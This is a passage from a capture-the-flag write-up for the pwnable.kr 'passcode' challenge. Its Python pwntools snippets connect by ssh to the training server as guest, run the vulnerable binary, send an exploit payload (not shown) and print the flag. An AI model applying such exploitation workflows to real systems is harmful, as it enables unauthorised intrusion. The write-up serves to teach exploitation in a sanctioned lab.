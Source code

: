 ```python
# io = process(exe.path)

server = ssh('passcode', 'pwnable.kr', 2222, 'guest')
io = server.process('./passcode')
```

* During testing the ```io``` is set to the local ```./passcode``` executable downloaded by the setup script
* After the exploit is working we can use it on the server by ssh-ing to it before setting ```io``` to the remote ```.\passcode``` executable

```python
io.sendline(payload)

result = io.recvall()

io.close()
server.close()
print(result)
```
* Send the ```payload```
* Print the ```result``` which is the ```flag```
* ```PWN```

